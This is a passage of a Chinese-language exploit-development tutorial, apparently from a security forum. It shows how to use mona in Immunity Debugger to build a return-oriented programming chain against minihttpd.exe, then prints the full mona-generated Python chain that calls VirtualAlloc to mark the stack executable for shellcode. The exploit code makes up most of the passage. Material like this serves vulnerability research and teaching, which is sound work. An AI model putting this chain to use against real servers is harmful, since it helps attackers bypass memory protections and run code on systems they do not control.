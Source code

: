 我们在Immunity Debugger中运行`!mona rop`，来查找可利用的rop指令：  
生成的结果保存在了rop.txt、rop\_chains.txt、rop\_suggestions.txt、stackpivot.txt文件中。

![Pasted image 20240331185500.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-2e7b0978d96d2adddbb6151bd60ffe71a534079b.png)

在rop\_chains.txt文件中，mona尝试生成一串指令来调用Virtualalloc 或Virtualprotect函数，并将堆栈标记为可执行，以便执行我们的shellcode。这串指令在 Python、Ruby 或 Javascript 中以函数的形式呈现，以便能够直接插入到我们的漏洞中。  
这是mona创建的函数，用于从python中调用Virtualalloc：

```python
*** [ Python ] ***

  def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x00000000,  # [-] Unable to find API pointer -> eax
      0x0040c17f,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [minihttpd.exe] 
      0x004176cf,  # PUSH EAX # POP ESI # RETN 0x04 [minihttpd.exe] 
      #[---INFO:gadgets_to_set_ebp:---]
      0x0040b89b,  # POP EBP # RETN [minihttpd.exe] 
      0x41414141,  # Filler (RETN offset compensation)
      0x004165ec,  # & push esp # ret 0x0c [minihttpd.exe]
      #[---INFO:gadgets_to_set_ebx:---]
      0x0040d121,  # POP EBX # RETN [minihttpd.exe] 
      0x00000201,  # 0x00000201-> ebx
      #[---INFO:gadgets_to_set_edx:---]
      0x0040c1f6,  # POP EBX # RETN [minihttpd.exe] 
      0x00000040,  # 0x00000040-> edx
      0x0040c93c,  # XOR EDX,EDX # RETN [minihttpd.exe] 
      0x0040aeae,  # ADD EDX,EBX # POP EBX # RETN 0x10 [minihttpd.exe] 
      0x41414141,  # Filler (compensate)
      #[---INFO:gadgets_to_set_ecx:---]
      0x0040ef10,  # POP ECX # RETN [minihttpd.exe] 
      0x41414141,  # Filler (RETN offset compensation)
      0x41414141,  # Filler (RETN offset compensation)
      0x41414141,  # Filler (RETN offset compensation)
      0x41414141,  # Filler (RETN offset compensation)
      0x00420f95,  # &Writable location [minihttpd.exe]
      #[---INFO:gadgets_to_set_edi:---]
      0x00405be9,  # POP EDI # RETN [minihttpd.exe] 
      0x00403f01,  # RETN (ROP NOP) [minihttpd.exe]
      #[---INFO:gadgets_to_set_eax:---]
      0x0040d1ec,  # POP EAX # RETN [minihttpd.exe] 
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x00419126,  # PUSHAD # ADD AL,0 # RETN [minihttpd.exe] 
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

  rop_chain = create_rop_chain()
```
